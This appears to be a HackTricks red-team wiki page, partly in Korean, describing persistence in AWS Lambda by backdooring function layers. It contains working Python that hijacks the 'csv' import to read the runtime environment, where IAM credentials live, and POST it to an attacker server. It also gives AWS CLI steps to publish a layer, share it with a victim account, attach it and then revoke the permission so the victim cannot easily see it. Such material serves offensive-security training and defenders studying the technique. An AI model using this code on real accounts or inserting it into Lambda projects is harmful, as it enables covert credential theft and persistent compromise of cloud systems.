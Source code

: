 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda 레이어는 **추가 코드를 포함할 수 있는** .zip 파일 아카이브입니다. 레이어는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

**함수당 최대 다섯 개의 레이어를 포함할 수 있습니다**. 함수에 레이어를 포함하면 **내용이 실행 환경의 `/opt`** 디렉토리에 추출됩니다.

**기본적으로**, 생성한 **레이어**는 **귀하의 AWS 계정에만 비공개**입니다. 다른 계정과 레이어를 **공유**하거나 레이어를 **공개**할 수 있습니다. 귀하의 함수가 다른 계정에서 게시한 레이어를 사용하는 경우, 레이어가 삭제되거나 레이어에 대한 접근 권한이 취소된 후에도 귀하의 함수는 **레이어 버전을 계속 사용할 수 있습니다**. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신, 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키징합니다.

### Python load path

Python이 lambda에서 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* **피해자의 코드에 의해 로드되는 라이브러리 확인**
* **사용자 정의 코드를 실행하고 원래 라이브러리를 로드하는 lambda layers로 프록시 라이브러리 생성**

### Preloaded libraries

{% hint style="warning" %}
When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것은 **목록**입니다 (라이브러리 `os` 또는 `json`이 이미 있는지 확인하십시오)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file **`__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

* Execute our payload
* Load the original csv library

We can do both with:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Create** a **layer** in **his account**, give the **victim account access** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
* The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
* The victim **won't see external layers** used with **`aws lambda list-layers`**
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
